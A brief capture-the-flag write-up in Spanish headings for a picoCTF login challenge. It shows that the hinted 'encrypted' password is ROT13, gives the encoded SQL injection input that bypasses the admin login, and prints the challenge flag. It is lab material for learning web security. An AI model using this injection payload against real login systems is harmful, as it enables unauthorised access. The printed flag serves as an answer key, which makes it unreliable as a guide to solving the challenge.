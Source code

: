 # Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
# Pistas
1. Seems like the password is encrypted.
# Solución
```
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```
# Notas adicionales
# Referencias
- https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=JyBiZSAxPTE7